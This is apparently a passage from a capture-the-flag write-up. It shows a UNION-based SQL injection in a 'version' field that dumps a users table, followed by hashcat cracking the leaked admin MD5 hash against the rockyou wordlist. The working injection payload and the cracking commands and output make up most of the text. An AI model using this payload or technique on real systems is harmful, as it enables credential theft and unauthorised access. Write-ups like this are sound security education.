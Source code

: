 There was a 'users' table, so I immediately extracted its content.

```python
data = {"version": '0.0.0" UNION Select username || " - " || password || " - " || role, 2, 3, 4 From users Limit 1 Offset 0 -- -'}
```

```json
{"message": {"id": "admin - 0c090c365fa0559b151a43e0fea39710 - admin", "version": 2, "released_date": 3, "downloads": 4}}
```

There was only one user in the table. I used hashcat to crack the password.

```bash
$ hashcat -a0 -m0 hash.txt /usr/share/seclists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 2862/5789 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

0c090c365fa0559b151a43e0fea39710:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 0c090c365fa0559b151a43e0fea39710
Time.Started.....: Sun Apr 30 08:51:52 2023 (2 secs)
Time.Estimated...: Sun Apr 30 08:51:54 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
```